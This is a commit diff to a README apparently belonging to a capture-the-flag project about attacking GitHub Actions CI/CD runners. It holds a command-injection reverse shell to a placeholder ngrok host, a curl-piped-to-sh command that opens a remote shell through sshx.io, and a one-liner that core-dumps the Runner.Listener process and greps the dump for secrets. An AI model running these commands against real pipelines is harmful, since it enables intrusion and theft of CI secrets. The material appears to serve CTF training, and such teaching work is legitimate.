

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -226,18 +214,14 @@ Body Issue Comment:
 ``` bash
 ; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
 ```
-
-## Fancy shell for lazy DevOps :)
-
-``` bash
-curl -sSf https://sshx.io/get | sh -s run
-```
-
-## Let's dump!
-
-### Let's check those secrets
-
+5. Dump and check those secrets
 ``` bash
 sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
 ```
+
+> [!TIP]
+> Fancy shell for lazy DevOps :)
+> ``` bash
+> curl -sSf https://sshx.io/get | sh -s run
+> ```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>
````
Also changed, not shown: other parts of README.md (+19 -31 lines).
